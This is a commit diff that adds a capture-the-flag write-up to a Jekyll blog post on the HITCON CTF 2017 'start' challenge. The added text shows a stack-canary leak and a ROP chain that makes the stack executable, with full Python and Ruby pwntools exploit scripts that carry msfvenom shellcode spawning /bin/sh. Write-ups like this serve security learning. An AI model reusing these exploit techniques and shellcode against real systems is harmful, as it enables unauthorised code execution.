

Before and after one commit to R3dCr3sc3nt/R3dCr3sc3nt.github.io, a Jekyll site: the page built from _posts/2017-11-08-HITCON-CTF-2017.md, in a window 1280 px wide and 1400 px high, scrolled down 3138 px. Shown: the whole window at 82% size. Built offline with Jekyll 4.4.1, drawn with Linux system fonts in a browser that asks for light colours; some web fonts are replaced; before the commit the page ends 3768 px from its top, so only the background shows below that; some of the changed text lies outside the part shown.

Commit message:
Update 2017-11-08-HITCON-CTF-2017.md

````diff
--- a/_posts/2017-11-08-HITCON-CTF-2017.md
+++ b/_posts/2017-11-08-HITCON-CTF-2017.md
@@ -66,3 +66,85 @@ The flag is found in stream 42, which can be filtered for with the expression `t
 > Have you tried pwntools-ruby?
 > nc 54.65.72.116 31337
 > [start-7a3715a6bd61783850f9c109dbc57571.zip](/assets/hitcon2017/start-7a3715a6bd61783850f9c109dbc57571.zip)
+
+Once connected, the server serving the `server.rb` script makes it clear that the start binary is hosted locally and that a ruby script is to be provided for it to run.
+
+![server.rb](/assets/hitcon2017/serverrb.png)
+
+Quickly looking over the `server.rb` script it seems to import the pwntools library - knowing this let's start reversing and creating an exploit for the `start` binary using pwntools, to hopefully later on send the script to the server.
+
+A stack canary is put on the stack preventing us from conventional buffer overflows or similar things that tamper with the stack.
+
+![stack canary](/assets/hitcon2017/canary.png)
+
+Luckily there is a way to leak the canary abusing the puts() call. Reading in 24 characters and a newline char `\n`, puts() will print the canary except the last char which is overwritten by the `\n`. Luckily, the last char of the canary is a null-byte in this case so it won't matter.
+
+
+Once the canary is obtained it is a simple matter of creating the exploit. I am sure there are multiple paths to success once we control the return address, I chose to go with `mprotect()` which is a syscall allowing us to overwrite permissions on the stack, making it executable (the binary has DEP/NX enabled by default).
+
+Using an already present function in this static binary `_dl_make_stack_executable` which is essentially a wrapper around the mprotect() syscall the stack is made executable, a payload is generated with `msfvenom` and the exploit is mounted.
+
+Here is the initial script I wrote in python (to be ported to ruby).
+
+```
+#!/usr/bin/python2.7
+
+import sys
+from pwn import *
+
+# Payload
+payload = "A"*24 + "\n"
+
+r = process('./start')
+
+r.send(payload)
+
+r.recvline() #echo
+
+canary = struct.unpack("<Q", "\x00" + r.recv()[0:7])[0]
+print "Leaked canary: " + hex(canary)
+
+payload2 = "exit\n" + "A"*19 + struct.pack("<Q", canary) + "A"*8
+
+payload2 += p64(0x466c09) # 0x0000000000466c09: pop rsi; ret;
+payload2 += p64(0x6cbfe0) # 00000000006cbfe0 <__stack_prot>
+payload2 += p64(0x4005d5) # 0x00000000004005d5: pop rdi; ret;
+payload2 += p64(0x7) # RWX Flag
+payload2 += p64(0x41881b) # 0x000000000041881b: mov qword ptr [rsi], rdi; ret;
+
+payload2 += p64(0x4005d5) # 0x00000000004005d5: pop rdi; ret
+payload2 += p64(0x6cbf90) # 00000000006cbf90 <__libc_stack_end>:
+payload2 += p64(0x4768a0) # 00000000004768a0 <_dl_make_stack_executable>:
+
+# JMP RSP
+payload2 += p64(0x4a554f) # 0x00000000004a554f: jmp rsp;
+
+# msfvenom -f python -p linux/x64/exec CMD=/bin/sh --platform linux
+buf =  ""
+buf += "\x6a\x3b\x58\x99\x48\xbb\x2f\x62\x69\x6e\x2f\x73\x68"
+buf += "\x00\x53\x48\x89\xe7\x68\x2d\x63\x00\x00\x48\x89\xe6"
+buf += "\x52\xe8\x08\x00\x00\x00\x2f\x62\x69\x6e\x2f\x73\x68"
+buf += "\x00\x56\x57\x48\x89\xe6\x0f\x05"
+
+payload2 += "\x90"*20 + buf
+
+r.send(payload2 + "\n")
+
+r.interactive()
+r.clean()
+r.close()
+```
+
+Once run a shell is obtained.
+
+![local shell](/assets/hitcon2017/local-shell.png)
+
+Porting to ruby was somewhat of a challenge as I have little to no experience in ruby (although not much has to be changed). It is also not possible, as far as I know, to make use of the interactive pipe in this case so I chose to run single commands on the system one at a time navigating the filesystem until I could cat the flag. This is the final ruby script sent to the server, I sent it as a one-liner although I'm not sure that was necessary.
+
+```
+payload = "A"*24 + "\n" ;r = Sock.new '127.0.0.1', 31338 ;r.send(payload) ;r.recvline() ;canary = unpack("\x00" + r.recv()[0, 7], bits: 64, endian: 'little', signed: false) ;puts "Leaked canary: " + "0x" + canary.to_s(16) ;payload2 = "exit\n" + "A"*19 + p64(canary) + "A"*8 ;payload2 += p64(0x466c09) ;payload2 += p64(0x6cbfe0) ;payload2 += p64(0x4005d5) ;payload2 += p64(0x7) ;payload2 += p64(0x41881b) ;payload2 += p64(0x4005d5) ;payload2 += p64(0x6cbf90) ;payload2 += p64(0x4768a0) ;payload2 += p64(0x4a554f) ;buf = "\x6a\x3b\x58\x99\x48\xbb\x2f\x62\x69\x6e\x2f\x73\x68\x00\x53\x48\x89\xe7\x68\x2d\x63\x00\x00\x48\x89\xe6\x52\xe8\x08\x00\x00\x00\x2f\x62\x69\x6e\x2f\x73\x68\x00\x56\x57\x48\x89\xe6\x0f\x05"; payload2 += "\x90"*20 + buf; r.send(payload2 + "\n"); r.sendline('/bin/cat /home/start/flag'); puts r.recv()
+```
+
+And flag received!
+
+![flag](/assets/hitcon2017/flag.png)
````
